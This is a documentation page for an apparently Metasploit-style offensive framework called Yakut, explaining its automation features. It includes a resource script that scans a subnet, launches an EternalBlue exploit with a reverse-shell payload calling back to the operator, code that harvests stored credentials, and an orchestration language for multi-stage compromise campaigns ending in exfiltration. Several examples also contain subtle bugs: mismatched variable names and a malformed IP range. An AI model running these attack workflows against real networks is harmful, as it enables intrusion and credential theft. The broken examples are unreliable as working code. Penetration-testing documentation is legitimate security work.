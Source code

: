 # Scripting & Automation

- [Scripting \& Automation](#scripting--automation)
  - [1. Yakut's Automation Approaches](#1-yakuts-automation-approaches)
  - [2. Resource Scripts (`.yrc` Files)](#2-resource-scripts-yrc-files)
      - [Format](#format)
      - [Usage](#usage)
      - [Example `scan_and_exploit.yrc`](#example-scan_and_exploityrc)
  - [3. Embedded Ruby Scripting (`ruby_eval` and `irb`)](#3-embedded-ruby-scripting-ruby_eval-and-irb)
  - [4. `Orchestration` Capabilities (Advanced Automation \& Campaigns)](#4-orchestration-capabilities-advanced-automation--campaigns)
      - [Running Other Capabilities](#running-other-capabilities)
      - [Conditional Logic](#conditional-logic)
      - [Human-in-the-Loop Prompts](#human-in-the-loop-prompts)
      - [Usage](#usage-1)
  - [5. Choosing the Right Automation Approach](#5-choosing-the-right-automation-approach)

## 1. Yakut's Automation Approaches

Yakut provides several mechanisms for scripting and automation, catering to different
levels of complexity and user needs:

- **Resource Scripts (`.yrc` files):** Simple batch files containin sequences of Yakut console commands.
- **Embedded Ruby Scripting:** Direct execution of Ruby code within the Yakut console.
- **`Orchestration` Capabilities:** The most powerful approach, allows for the development of complex, stateful and conditional attack workflows using a dedicated Ruby DSL.

## 2. Resource Scripts (`.yrc` Files)

Resource scripts are the simplest way to automate a sequence of Yakut console commands.

#### Format

A plain text file where each line is a command exactly as you would type it into the Yakut console. Comments can typically be added using `#`.

#### Usage

To execute a resource script:

```
yakut > resource /path/to/your_script.yrc
```

You can also potentially launch `yakut-console` with a resource script to be executed immediately.

```bash
./bin/yakut-console -r /path/to/your_script.yrc
```

#### Example `scan_and_exploit.yrc`

```ruby
# scan_and_exploit.yrc - Example Yakut resource script
# Ensure a workspace is active before running this.

# Set target range for this script
setg RHOSTS 192.168.1.0/24

# Use a reconnaissance capability
capability use recon/network/fast_portscan
set RHOSTS ${RHOSTS}
set PORTS 22,80,443,445
run

# After that, a conditional logic would be more robust with Orchestration Capabilities

# Attempt a common SMB exploit if port 445 is found (example)
capability use exploit/windows/smb/eternalblue_ms17010
set RHOSTS ${RHOSTS} # Needs a way to filter based on open ports from previous step
set PAYLOAD windows/x64/yakut_agent/reverse_tcp
pset LHOST tun0
pset LPORT 4444
run

# List any sessions opened
sessions list
```

## 3. Embedded Ruby Scripting (`ruby_eval` and `irb`)

For more dynamic automation and direct interaction with Yakut's internals from the
console, you can use `ruby_eval` command or drop into an IRB session within Yakut's
context.

#### Example `ruby_eval`

```ruby
yakut [ws:ACME_Corp_Q3_Audit] > ruby_eval do |yk|
  puts "[*] Automating SMB scan for all Windows targets in workspace: #{yk.workspace.current.name}"
  windows_targets = yk.cognition.targets.where(os: /Windows/i, workspace_id: yk.workspace.current.id)

  if windows_targets.empty?
    puts "[-] No Windows targets found."
  else
    smb_scanner = yk.operations.find_capability("recon/network/smb_version_scan")

    unless smb_scanner
      puts "[-] SMB version scanner capability not found."
      return
    end

    windows_targets.each do |target|
      puts "[*] Scanning SMB on #{target.address}..."
      opts = { 'RHOSTS' => target.address }
      yk.operations.run_capability_async(smb_scanner.ref_name, opts)
    end

    puts "[+] SMB scans initiated for #{window_targets.count} targets. Check 'jobs list'."
  end
end
```

- `irb` (within Yakut context):
  - `irb` would drop you into a full Interactive Ruby Shell (IRB) session that has the Yakut framework environment loaded.
  - You'd have direct access to Yakut's classes and objects.

```ruby
yakut [ws:ACME_Corp_Q3_Audit] > irb
[*] Entering Yakut IRB session... Acces framework via 'yakut_kernel' or 'yk'.

irb(yakut):001:0> yk.workspace.current.targets.count
=> 15
irb(yakut):002:0> creds = yk.cognition.loot.where(type: 'creds', workspace_id: yk.workspace.current.id)
=> [...]
irb(yakut):003:0 > exit
[*] Exiting Yakut IRB session...
yakut [ws:ACME_Corp_Q3_Audit] >
```

## 4. `Orchestration` Capabilities (Advanced Automation & Campaigns)

This is Yakut's most powerful and recommended approach for complex automation, attack
chain simulation and campaign management.

- **Definition:** `Orchestration` Capabilities are special typs of capabilities written in Ruby, using a dedicated DSL provided by Yakut's `CampaignOrchestrator`. They define workflows, conditional logic, state management and interactions with other capabilities.
- **Purpose:**
  - To automate multi-stage attack scenarios (e.g., recon -> vulnerability scan -> exploit -> post-exploitation -> exfiltration).
  - To implement adaptive responses based on the outcome of previous steps.
  - To manage long-running campaigns with specific objectives.
  - To allow for human-in-the-loop decision points within an automated workflow.

#### Running Other Capabilities

```ruby
# Within an Orchestration capability's run method
stage "Initial Reconnaissance" do
  results = run_capability('recon/network/host_discovery_fast',
    { 'RHOSTS' => datastore['TARGET_RANGE'] },
    fail_on_error: false)

  store_state(:live_hosts, resuts.hosts) if results&.success?
end
```

#### Conditional Logic

```ruby
stage "Vulnerability Exploitation" do
  get_state(:live_hosts).each do |host|
    if host.has_service?(port: 445, product: /Samba/i) && host.has_vuln?('CVE-2017-0144')
      run_capability('exploit/linux/samba/eternal_samba_variant', { 'RHOSTS' => host.ip, ...})
    end
  end
end
```

#### Human-in-the-Loop Prompts

```ruby
stage "Critical Action" do
  if user_confirm("Attempt to exploit Domain Controller #{dc_host.ip} with high-risk exploit?")
    run_capability('exploit/windows/rpc/dangerous_dc_exploit', { 'RHOSTS' => dc_host.ip })
  else
    log_info("User skipped DC exploitation")
  end
end
```

#### Usage

```console
yakut > capability use orchestration/campaign/full_internal_compromise
yakut [cap:orchestration/campaign/full_internal_compromise] > set TARGET_RANGE 10.10.0.0./16
yakut [cap:orchestration/campaign/full_internal_compromise] > run
```

## 5. Choosing the Right Automation Approach

- **Simple, linear command sequences:** Use Resoure Scripts (`.yrc`).
- **Quick, interactive scripting with framework access:** Use `ruby_eval` or the `irb` console.
- **Complex, stateful, conditional, multi-stage operations or campaign automation:** Develop an `Orchestration` Capability.
